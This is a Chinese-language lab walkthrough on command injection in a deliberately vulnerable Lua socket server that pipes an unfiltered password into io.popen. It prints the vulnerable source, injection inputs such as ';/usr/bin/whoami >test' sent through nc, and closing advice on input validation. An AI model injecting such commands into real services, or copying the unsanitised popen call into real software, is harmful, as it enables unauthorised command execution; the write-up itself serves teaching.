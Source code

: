 # linux下漏洞分析入门/center>

## 实验概述

### 【目的】
安装lua和luasocket，运行level12.lua脚本，利用漏洞远程执行任意指令。
### 【环境】
Linux
### 【工具】
nc
### 【原理】
远程代码执行漏洞：远程命令执行漏洞，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。
## 实验步骤

### 【步骤】
我们拿到的是一个lua脚本，首先需要在电脑上安装lua环境和所需要的luasocket模块。
安装lua：
```
sudo apt install lua5.1
```

安装luasocket：
```
sudo apt install luarocks
sudo luarocks install luasocket
```
现在就可以在终端上运行所给的lua脚本了
```
lua level19.lua
```
我们可以通过nc来访问：
```
$ nc 127.0.0.1 50001
Password: 

```
发现程序要求我们输入password。
切到lua脚本看源代码。
```
  1 local socket = require("socket")
  2 local server = assert(socket.bind("127.0.0.1", 50001))
  3 
  4 function hash(password)
  5   prog = io.popen("echo "..password.." | sha1sum", "r")
  6   data = prog:read("*all")
  7   prog:close()
  8 
  9   data = string.sub(data, 1, 40)
 10 
 11   return data
 12 end
 13 
 14 
 15 while 1 do
 16   local client = server:accept()
 17   client:send("Password: ")
 18   client:settimeout(60)
 19   local line, err = client:receive()
 20   if not err then
 21       print("trying " .. line) -- log from where ;\
 22       local h = hash(line)
 23 
 24       if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
 25           client:send("Better luck next time\n");
 26       else
 27           client:send("Congrats, your token is 413**CARRIER LOST**\n")
 28       end
 29 
 30   end
 31 
 32   client:close()
 33 end
~                                                                     
~                                   
```
可以看出，这里程序要求输入一个password，之后通过hash加密后与字符串`4754a4f4bd5787accd33de887b9250a0691dd198`进行对比，相等就认为输入了正确的密码。

需要注意的是，在函数hash()中，程序调用了popen()来得到加密后的字符串。
io.popen()##
原型：io.popen ([prog [, mode]])
解释：在额外的进程中启动程序prog，并返回用于prog的文件句柄。通俗的来说就是使用这个函数可以调用一个命令（程序），并且返回一个和这个程序相关的文件描述符，一般是这个被调用函数的输出结果，这个文件打开模式由参数mode确定，有取值"r"和"w"两种，分别表示以读、写方式打开，默认是以读的方式。

这里，程序用popen()调用了echo指令来吧password的值送入sha1sum处理并得到返回值。shell脚本的指令用`;`隔开，注意这里对于password没有任何过滤就送入了popen()，那么我们可以用`;`来隔断，从而运行任意指令。

```
$ nc 127.0.0.1 50001
Password: ;/usr/bin/whoami >test
Better luck next time
$ cat test
lometsj
$ nc 127.0.0.1 50001
Password: ;/bin/echo u got it > test
Better luck next time
$ cat test
u got it

```
### 【总结】

由于开发人员编写源码，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。命令注入攻击中WEB服务器没有过滤类似system(),eval()，exec()等函数是该漏洞攻击成功的最主要原因。

建议假定所有输入都是可疑的，尝试对所有输入提交可能执行命令的构造语句进行严格的检查或者控制外部输入，系统命令执行函数的参数不允许外部传递。
·不仅要验证数据的类型，还要验证其格式、长度、范围和内容。
·不要仅仅在客户端做数据的验证与过滤，关键的过滤步骤在服务端进行。
·对输出的数据也要检查，数据库里的值有可能会在一个大网站的多处都有输出，即使在输入做了编码等操作，在各处的输出点时也要进行安全检查。
·在发布应用程序之前测试所有已知的威胁。